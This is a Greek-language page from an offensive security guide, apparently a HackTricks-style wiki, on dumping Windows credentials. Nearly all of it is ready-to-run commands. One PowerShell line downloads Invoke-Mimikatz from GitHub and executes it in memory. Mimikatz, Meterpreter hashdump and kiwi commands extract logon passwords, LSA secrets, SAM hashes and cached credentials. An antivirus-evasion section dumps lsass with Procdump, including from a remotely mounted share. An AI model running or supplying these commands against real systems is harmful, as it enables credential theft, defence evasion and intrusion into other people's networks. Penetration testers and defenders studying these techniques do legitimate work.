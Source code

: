 ```bash
```
**Βρείτε άλλα πράγματα που μπορεί να κάνει το Mimikatz στη** [**σελίδα αυτή**](credentials-mimikatz.md)**.**

### Invoke-Mimikatz
```bash
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds #Dump creds from memory
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'
```
[**Μάθετε για μερικές πιθανές προστασίες πιστοποίησης εδώ.**](credentials-protections.md) **Αυτές οι προστασίες θα μπορούσαν να αποτρέψουν το Mimikatz από το να εξάγει ορισμένες πιστοποιήσεις.**

## Πιστοποιήσεις με Meterpreter

Χρησιμοποιήστε το [**Credentials Plugin**](https://github.com/carlospolop/MSF-Credentials) **που** έχω δημιουργήσει για να **αναζητήσετε κωδικούς πρόσβασης και κατακερματισμούς** μέσα στο θύμα.
```bash
#Credentials from SAM
post/windows/gather/smart_hashdump
hashdump

#Using kiwi module
load kiwi
creds_all
kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam"

#Using Mimikatz module
load mimikatz
mimikatz_command -f "sekurlsa::logonpasswords"
mimikatz_command -f "lsadump::lsa /inject"
mimikatz_command -f "lsadump::sam"
```
## Παράκαμψη AV

### Procdump + Mimikatz

Καθώς το **Procdump από** [**SysInternals** ](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)**είναι ένα νόμιμο εργαλείο της Microsoft**, δεν ανιχνεύεται από τον Defender.\
Μπορείτε να χρησιμοποιήσετε αυτό το εργαλείο για να **dump τον lsass process**, **κατεβάσετε το dump** και **εξάγετε** τα **credentials τοπικά** από το dump.

{% code title="Dump lsass" %}
```bash
#Local
C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
#Remote, mount https://live.sysinternals.com which contains procdump.exe
net use Z: https://live.sysinternals.com
Z:\procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
{% endcode %}
